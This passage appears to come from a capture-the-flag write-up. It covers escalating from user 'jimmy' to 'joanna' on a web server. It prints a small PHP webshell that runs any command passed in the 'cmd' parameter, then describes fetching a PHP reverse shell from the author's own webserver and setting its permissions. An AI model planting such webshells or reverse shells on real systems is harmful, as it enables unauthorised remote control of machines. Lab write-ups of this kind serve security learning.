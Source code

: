 To test this, I copied ``main.php`` to an adjacent file, ``shell.php``. I then removed pretty much everything but the ``shell_exec()`` and turned it into a little webshell:

```php+HTML
<?php
$cmd = $_GET['cmd'] ?? 'id';
$res = shell_exec($cmd);
echo "<p> >> $cmd</p><hr><pre>$res</pre>";
?>
```

It will run ``id`` if given no parameters. Indeed, the script is being ran by ``joanna``:

![webshell 1](webshell%201.png)

:tada: And thankfully, the browser performs url-encoding by itself, so no need to fuss about spaces:

![webshell 2](webshell%202.png)

Webshells are handy in a pinch, but can be a bit restrictive. Since this is all being executed as ``joanna``, I'll start a new reverse shell so we can investigate ``joanna`` more thoroughly. First, as ``jimmy``, download a copy of the good 'ol **php-reverse-shell.php** (that is still being served by my python webserver):

> :point_up: Remember to modify `php-reverse-shell.php` to use the new port, 5555. 

![download php reverse shell](download%20php%20reverse%20shell.png)

As ``jimmy``, set proper file ownership and permissions:

```bash
chown jimmy:internal php-reverse-shell.php
chmod 755 php-reverse-shell.php
```
